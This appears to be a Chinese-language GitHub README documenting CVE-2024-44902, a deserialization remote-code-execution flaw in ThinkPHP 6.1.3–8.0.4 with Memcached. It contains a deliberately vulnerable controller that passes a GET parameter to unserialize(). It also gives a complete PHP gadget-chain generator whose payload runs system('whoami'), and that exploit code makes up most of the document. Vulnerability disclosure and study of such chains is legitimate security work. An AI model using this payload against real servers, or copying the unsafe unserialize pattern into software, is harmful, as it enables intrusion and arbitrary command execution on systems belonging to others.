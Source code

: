 # CVE-2024-44902

## 漏洞描述
ThinkPHP v6.1.3 - v8.0.4存在一个反序列化漏洞，使得攻击者能够执行任意代码

## 影响版本

Thinkphp v6.1.3 to v8.0.4 

## 利用条件

Thinkphp安装了Memcached扩展

## 漏洞证明

- 测试环境: php8.0.7+thinkphp8.0.4+memcached3.2.0.

首先，在 app\controller\Index.php 中添加新的反序列化端点，例如:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['x']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

    public function hello($name = 'ThinkPHP8')
    {
        return 'hello,' . $name;
    }
}

```

您可以从以下位置生成有效负载:

```php
<?php
namespace think\cache\driver;
use think\model\Pivot;
class Memcached{
    protected $options=[];
    function __construct()
    {
        $this->options["username"]=new Pivot();
    }
}

namespace think\model;
use think\model;
class Pivot extends Model
{

}

namespace think;
abstract class Model{
    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    function __construct()
    {
        $this->data["fru1ts"]=["whoami"];
        $this->withAttr["fru1ts"]=["system"];
        $this->json=["fru1ts"];
    }
}

namespace think\route;
use think\DbManager;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new DbManager();
    }
}
namespace think;
use think\model\Pivot;
class DbManager
{
    protected $instance = [];
    protected $config = [];
    function __construct()
    {
        $this->config["connections"]=["getRule"=>["type"=>"\\think\\cache\\driver\\Memcached","username"=>new Pivot()]];
        $this->config["default"]="getRule";
    }
}

use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

使用 payload 反序列化可以导致 RCE:

![image-20240905234416317](CVE-2024-44902.assets/result.png)
